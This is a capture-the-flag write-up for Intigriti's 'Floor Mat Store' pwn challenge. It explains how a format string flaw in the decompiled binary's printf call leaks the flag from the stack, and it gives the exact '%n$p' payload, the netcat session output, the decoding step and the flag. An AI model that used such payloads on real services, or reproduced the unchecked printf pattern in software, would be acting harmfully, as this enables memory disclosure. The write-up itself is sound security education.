 ## **Floor Mat Store**
### Description
<sup>Author: CryptoCat</sup><br>
Welcome to the Floor Mat store! It's kind of like heaven.. for mats

`floormats.ctf.intigriti.io 1337`<br>
[floormats](./floormats)
### Solution
This challenge give us `ELF 64-bit` file.
```bash
$ file floormats   
floormats: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=386aa1493b9103743d0ce9091badfa29d656245e, for GNU/Linux 3.2.0, not stripped
```

I used ghidra to decompile the program. [Decompiled source code - floormats](#decompiled-source-code---floormats)<br>
There is a secret mat `6. Mysterious Flag Mat - $1337` at line 26.<br>
According to the [Decompiled source code - floormats](#decompiled-source-code---floormats), If the first input is `6`, the program will read `flag.txt` and put it in `local_d8` variable.<br>
At line 56, There is a **format string vuln** `printf(local_98);` because It call printf() without specific a type of the varible. So If we input something like this `%p` -> `printf(%p);` the program will bring something in memory.

The idea to read the flag is
1. input `6` then the program will load content of `flag.txt` in memory.
2. input many `%p` and hope the program will leak the flag.

After a while I found that first location of the flag `%18$p` <br>
payload:  `%23$p %22$p %22$p %21$p %20$p %19$p %18$p`

```bash
$ nc floormats.ctf.intigriti.io 1337
Welcome to the Floor Mat store! It's kind of like heaven.. for mats.

Please choose from our currently available floor mats

Note: Out of stock items have been temporarily delisted

Please select a floor mat:

1. Cozy Carpet Mat - $10
2. Wooden Plank Mat - $15
3. Fuzzy Shag Mat - $20
4. Rubberized Mat - $12
5. Luxury Velvet Mat - $25

Enter your choice:
6

Please enter your shipping address:
%23$p %22$p %22$p %21$p %20$p %19$p %18$p

Your floor mat will be shipped to:

0x7d66376e3172 0x705f37753062345f 0x705f37753062345f 0x6e7234775f793368 0x375f7968775f3537 0x3468375f30357b49 0x5449524749544e49
```

```
0x7d66376e3172 0x705f37753062345f 0x705f37753062345f 0x6e7234775f793368 0x375f7968775f3537 0x3468375f30357b49 0x5449524749544e49
```
Decode these hex and reverse them. then get the flag. 
[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')Reverse('Character')&input=MHg3ZDY2Mzc2ZTMxNzIgMHg3MDVmMzc3NTMwNjIzNDVmIDB4NzA1ZjM3NzUzMDYyMzQ1ZiAweDZlNzIzNDc3NWY3OTMzNjggMHgzNzVmNzk2ODc3NWYzNTM3IDB4MzQ2ODM3NWYzMDM1N2I0OSAweDU0NDk1MjQ3NDk1NDRlNDk)

> Flag: INTIGRITI{50_7h475_why_7h3y_w4rn_4b0u7_p_4b0u7_pr1n7f}

#### Decompiled source code - floormats
```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  int local_128;
  int local_124;
  __gid_t local_120;
  int local_11c;
  char *local_118;
  FILE *local_110;
  char *local_108 [4];
  char *local_e8;
  char *local_e0;
  char local_d8 [64];
  char local_98 [136];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  local_108[0] = "1. Cozy Carpet Mat - $10";
  local_108[1] = "2. Wooden Plank Mat - $15";
  local_108[2] = "3. Fuzzy Shag Mat - $20";
  local_108[3] = "4. Rubberized Mat - $12";
  local_e8 = "5. Luxury Velvet Mat - $25";
  local_e0 = "6. Mysterious Flag Mat - $1337";
  local_118 = local_d8;
  local_120 = getegid();
  setresgid(local_120,local_120,local_120);
  local_110 = fopen("flag.txt","r");
  if (local_110 == (FILE *)0x0) {
    puts("You have a flag.txt, right??");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts(
      "Welcome to the Floor Mat store! It\'s kind of like heaven.. for mats.\n\nPlease choose from o ur currently available floor mats\n\nNote: Out of stock items have been temporarily delisted\n "
      );
  puts("Please select a floor mat:\n");
  for (local_124 = 0; local_124 < 5; local_124 = local_124 + 1) {
    puts(local_108[local_124]);
  }
  puts("\nEnter your choice:");
  __isoc99_scanf(&DAT_001021b6,&local_128);
  if ((0 < local_128) && (local_128 < 7)) {
    local_11c = local_128 + -1;
    do {
      iVar1 = getchar();
    } while (iVar1 != 10);
    if (local_11c == 5) {
      fgets(local_d8,0x40,local_110);
    }
    puts("\nPlease enter your shipping address:");
    fgets(local_98,0x80,stdin);
    puts("\nYour floor mat will be shipped to:\n");
    printf(local_98);
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    return 0;
  }
  puts("Invalid choice!\n");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```
